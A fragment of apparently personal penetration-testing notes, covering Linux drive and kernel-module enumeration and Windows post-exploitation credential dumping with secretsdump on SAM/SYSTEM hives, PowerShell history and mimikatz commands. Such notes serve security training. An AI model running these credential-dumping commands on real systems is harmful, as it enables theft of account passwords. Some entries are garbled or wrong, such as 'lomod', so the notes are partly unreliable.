 


#### 13. Misc

Drive & Kernel Module

```
mount		# list all mounted file system
/etc/fstab	# all drives that will be mounted at boot time
lsblk		# view all available tasks
			# some of the partitions might not be mounted, can mount some partitions and search for interesting files
lomod		# loaded kernel modules
/sbin/modinfo xxx	# find out more about the specific module
```



Pspy

Unprivileged Linux Process Snooping





### Win POST-Enum/Exp

1. enumerate user & group & domain

2. ```
   Get-ChildItem -Path C:\ -Include SAM, SYSTEM -File -Recurse -ErrorAction SilentlyContinue
   
   impacket-secretsdump -sam SAM -system SYSTEM LOCAL
   ```

   

2. History

   ```
   Get-History
   (Get-PSReadlineOption).HistorySavePath
   ```
   
   
   
2. `mimikatz` - collect hash

   ```
   ::		# check command
   xxxx::
   	lsdump::
   
   privilege::debug
   token::elevate
   
   sekurlsa::logonpasswords
   lsadump::sam		# dumps the Security Account Manager (SAM) database, which is where Windows stores users' hashed passwords locally.
   